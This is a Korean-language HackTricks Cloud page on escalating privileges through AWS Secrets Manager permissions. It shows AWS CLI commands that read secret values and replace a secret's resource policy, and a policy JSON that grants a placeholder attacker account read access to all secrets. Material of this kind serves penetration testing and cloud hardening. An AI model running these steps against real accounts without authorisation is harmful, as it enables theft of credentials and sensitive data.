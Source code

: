 # AWS - Secrets Manager 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 **HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>

## Secrets Manager

Secrets Manager에 대한 자세한 정보는 다음을 참조하세요:

{% content-ref url="../aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### `secretsmanager:GetSecretValue`

이 권한을 가진 공격자는 AWS Secrets Manager에서 **비밀 내용을 가져올 수 있습니다**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**잠재적 영향:** AWS Secrets Manager 서비스 내부의 고도로 민감한 데이터에 접근할 수 있습니다.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

이전 권한을 사용하면 다른 주체/계정(외부 포함)이 **비밀**에 접근할 수 있도록 **권한을 부여**할 수 있습니다. KMS 키로 암호화된 **비밀을 읽으려면** 사용자는 **KMS 키에 대한 액세스 권한**도 갖고 있어야 합니다. (자세한 내용은 [KMS Enum 페이지](../aws-services/aws-kms-enum.md)에서 확인할 수 있습니다.)
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowListSecrets",
            "Effect": "Allow",
            "Action": [
                "secretsmanager:ListSecrets",
                "secretsmanager:ListSecretVersionIds"
            ],
            "Resource": "*"
        },
        {
            "Sid": "AllowGetSecretValue",
            "Effect": "Allow",
            "Action": "secretsmanager:GetSecretValue",
            "Resource": "arn:aws:secretsmanager:us-west-2:123456789012:secret:my-secret"
        }
    ]
}
```

This `policy.json` file contains the permissions defined for an AWS Secrets Manager. The policy allows the following actions:

1. `secretsmanager:ListSecrets` and `secretsmanager:ListSecretVersionIds`: These actions allow listing secrets and their version IDs. The `Resource` field is set to `*`, which means it applies to all resources.

2. `secretsmanager:GetSecretValue`: This action allows getting the value of a specific secret. The `Resource` field is set to the ARN (Amazon Resource Name) of the secret named "my-secret" in the `us-west-2` region and the AWS account ID `123456789012`.

These permissions can be used to manage and access secrets stored in AWS Secrets Manager.
```json
{
"Version" : "2012-10-17",
"Statement" : [ {
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : "secretsmanager:GetSecretValue",
"Resource" : "*"
} ]
}
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
